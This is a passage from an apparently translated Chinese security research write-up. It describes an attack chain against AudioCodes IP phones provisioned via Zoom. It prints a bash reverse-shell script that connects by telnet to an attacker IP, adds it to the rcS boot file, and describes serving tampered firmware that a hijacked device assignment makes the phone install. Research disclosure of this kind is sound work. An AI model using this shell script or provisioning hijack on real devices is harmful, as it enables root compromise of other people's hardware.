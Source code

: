## 八、攻击链

现在让我们进入更令人激动的环节，我们将利用设备未经核实的所有权和硬件中缺少的不可变可信根来构建一个攻击链。

为了简单证明概念，我们在路径 `/home/ipphone/scripts` 中添加了一个脚本，该脚本利用系统内置工具（即在环境中寻找资源）来启动一个 shell 连接到攻击者的服务器：

```bash
#!/bin/sh

/bin/sleep 120
TF=$(/bin/mktemp -u)
/usr/bin/mkfifo $TF
/usr/bin/telnet <ATTACKER-IP> 5000 0<$TF | /bin/sh 1>$TF
```

随后，脚本的路径被添加到 `/home/ipphone/rcS` 文件中，该文件在系统启动时执行。

被修改的固件映像随后被存储在攻击者控制的服务器上，并通过 HTTP 协议提供。为了触发目标设备下载恶意固件映像，攻击者将其设备的 MAC 地址添加到他们的 Zoom 账户，并分配一个包含从攻击者服务器下载新固件的恶意配置模板（请参阅“设备分配”部分）。

现在，通过将设备恢复到出厂设置，设备将经历 AudioCodes 和 Zoom 的配置过程，并从攻击者的服务器下载并安装恶意固件映像。

最后，攻击者的服务器上出现了一个具有 root 权限的 shell：

> [https://blog.syss.com/posts/zero-touch-pwn/#device-assignment](https://blog.syss.com/posts/zero-touch-pwn/#device-assignment)

[![](assets/1709282798-1b726c08954a31238a736b5fdb730eb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229172450-63a5dd72-d6e4-1.png)

攻击链的流程如下：

